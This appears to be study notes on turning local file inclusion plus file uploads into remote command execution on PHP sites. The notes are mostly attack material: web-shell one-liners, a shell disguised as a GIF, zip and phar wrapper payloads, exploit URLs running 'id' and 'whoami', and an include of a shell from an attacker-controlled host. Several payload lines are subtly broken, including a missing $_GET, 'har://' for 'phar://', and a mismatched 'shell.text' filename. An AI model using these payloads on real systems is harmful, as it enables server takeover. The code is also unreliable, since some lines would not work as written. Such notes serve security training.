 We use: `http://SERVER:PORT/index.php?language=\\ourIP\shell.php&cmd=whoami`
## LFI and File Uploads

In this kind of attack we don't need the file upload form to be vulnerable, we just need to upload the file. If the vulnerable function has `Execute` capabilities then the code within the file will get executed if we include it.

### Image upload

Image upload is very common. The vulnerability here is in the file inclusion functionality.

#### Crafting malicious Image
We want to create a shell that is in a gif image. We need the first few bytes to be GIF8, since this can be in text, we do:
`echo 'GIF8<?php system(["cmd"]); ?>' >shell.gif`
We upload this file to the avatar upload. Then we need to know the path to our image. We may be able to get this by inspecting the source code and getting it from the URL.

Now we just browse to our image:
`http://SERVERIP:PORT/index.php?language=./profile_images/shell.gif&cmd=id`

### Zip Upload

First we zip a shell into a file labeled shell.jpg.
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
Then we upload the shell.jpg archive as before. Then we access it using the zip wrapper and while referring to the files within it as \#filename (url encode the '\#'). In our case \#shell.php.

`http://SERVERIP:PORT/index.php?language=./profile_images/shell.jpg%23shell.php&cmd=id`

### Phar Upload

Using the phar:// wrapper.
Make this shell.php file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:
```shell-session
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload, then call it:
`http://SERVERIP:PORT/index.php?language=har://./profile_images/shell.jpg%2Fshell.text&cmd=id`
